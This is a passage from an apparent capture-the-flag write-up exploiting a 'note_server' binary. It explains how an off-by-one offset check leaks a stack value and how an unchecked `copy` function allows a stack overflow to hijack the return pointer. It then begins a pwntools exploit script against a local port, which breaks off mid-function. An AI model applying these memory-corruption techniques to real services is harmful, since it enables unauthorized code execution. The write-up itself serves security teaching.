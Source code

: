 So we could then leak that value with `dump`.

Also:

```c
// sanity check: offset must be > 0 and < index
if (offset < 0 || offset > index) {
    exit(1);
}
```

Since it only prevents the offset being bigger, not being equal to, we can just set the offset to the index. This would essentially just write the same data to the same spot, so nothing changes on the stack, but our index would increase, so we could then read it:

```text
AAAAAAAABBBBBBBB|0xdf8a3900553d3c00|
                |                  |
              offset           offset+size
              index
```

```text
AAAAAAAABBBBBBBB 0xdf8a3900553d3c00
                                   ^
                                 index
```

**Overflowing with copy**

Once we have the required values, we now need to be able to control execution. Fortunately, with `copy` we can also smash the stack to overwrite the return pointer, and hopefully get a shell. Unlike the `write` function which has checks in place to prevent buffer overflows, `copy` doesn't have these checks. The only check it makes is:

```c
// prevent user to write over the buffer's note
if (index > BUFFER_SIZE) {
    exit(1);
}
```

Which only checks if the index is within the buffer size, and doesn't check what the new size of `index + copy_size` would be, which `write` does.

### Exploiting the binary

Let's now start creating the script. I started off by writing some wrapper functions for each option:

```python
from pwn import *
from sys import argv

e = context.binary = ELF("./note_server_patched")
libc = e.libc

port = argv[1]
p = remote("127.0.0.1", port)


def recv():
    return p.clean()

def send(text):
    p.send(text)
    recv()


def write(text):
```
